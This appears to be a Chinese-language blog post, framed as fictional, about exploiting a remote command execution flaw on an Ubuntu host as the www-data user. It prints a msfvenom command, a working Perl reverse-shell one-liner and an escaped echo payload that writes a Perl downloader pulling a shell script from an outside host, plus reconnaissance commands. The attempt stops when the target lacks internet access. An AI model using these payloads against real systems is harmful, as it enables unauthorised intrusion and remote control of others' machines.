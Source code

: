 以下内容纯属个人通过假想来一步一步进行的操作，纯属虚构

先说一下做远程命令执行那道题引发的linux下连接多个命令执行的总结：  
;（前一个命令执行成功与否，对后一个命令无影响）  
||（前一个命令失败，后一个成功，前一个成功，后一个失败）  
&&（前一个成功，后一个成功，前一个失败，后一个失败）  
|（多用于管道的符号，也能用于连接多个命令执行）  
&（多用于后台执行的符号，也能用于连接多个命令执行）  

做远程命令执行那道题，引发了我的想入非非，忍不住尝试了一下：  
目标环境：ubuntu14.04  
本地测试环境：kali2019 + ubuntu16.04  
当前用户：www-data

【0：希望的曙光】  
寻找下载功能，执行wget -V、curl -V、ftp -h，发现都被砍掉了，再次尝试python -V还是不行，直到perl -v输出了perl的版本，看到了曙光，顺便试一下ruby -v还是不行

【1：本地测试】  
perl实现下载功能的代码段：  
```
use LWP::Simple;
$name="长春";
$url="http://192.168.1.213:8080/WellsoftTest/servlet/Httpservletwell?bz=k&name=$name&index=0";
$coont =get($url);
die "not found link.." if(!defined($coont));#如果是null
open $file,">t.txt" or die "couldn't open t.txt ..\n";
print $file $coont;
print "print succeed...\n";
close($file);
print "succeed,File is t.txt, exit.....";
<>
```
经过尝试，可以下载  
msfvenom生成perl的反连shell，命令如下：  
```
msfvenom -p cmd/unix/reverse_perl lhost=xxxx lport=xxxx -o /var/www/html/x.pl
```
生成的perl一行器代码如下：  
```
perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new 
IO::Socket::INET(PeerAddr,"192.168.xx.xx:xx");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
```
执行后报错，再次执行还是报错，修改后最终形式如下：  
```
use IO::Socket::INET;$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.xx.xx:xx");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~/(.*)/){system $1;}};
```
kali下设置好监听器，成功收到反连，OK，本地测试成功，开始对实际目标攻击

2：【实际攻击】  
第一个问题就是如何生成具有下载功能的perl脚本呢？echo吧  
刚输入第一条语句
```
echo use LWP::Simple;
```
就没成功  
得了，本地测试吧，经过大量测试发现，很多特殊字符都需要转义包括;、$、"、(、)、!等符号，精简后代码如下：  
```
use LWP::Simple;
$url="http://192.168.149.130/r.pl";
$coont=get($url);
die "not found link.." if(!defined($coont));
open $file,">r.pl" or die "couldn't open t.txt ..\n";
print $file $coont;
close($file);
exit;
<>
```
将代码转换为一行形式，并全部转义，最终payload如下  
```
echo use LWP::Simple\;\$url=\"http://supplied.6655.la/r.txt\"\;\$coont=get\(\$url\)\;die \"not found link..\" if\(\!defined\(\$coont\)\)\;open \$file,\"\>r.pl\" or die \"couldn\'t open t.txt ..\\n\"\;print \$file \$coont\;close\(\$file\)\;exit\;>d.pl
```
执行如上语句，没成功  
ls -alh  #发现没有写权限  
ls -alh /  #发现当前用户在/tmp/下有写权限  
执行payload，成功在/tmp/下创建下载功能的perl代码  
执行perl /tmp/d.pl后，却没有下载用于反弹shell的perl脚本  
ifconfig发现是内网ip  
ping -c 2 网关>/tmp/a.txt  #发现能通网关  
ping -c 2 www.baidu.com>/tmp/b.txt  #发现不能通外部域名  
ping -c 2 202.98.0.68  #发现不能通外部ip

傻眼了，到此为止吧，以后再想搞的话一定要先考虑目标是否能通外网
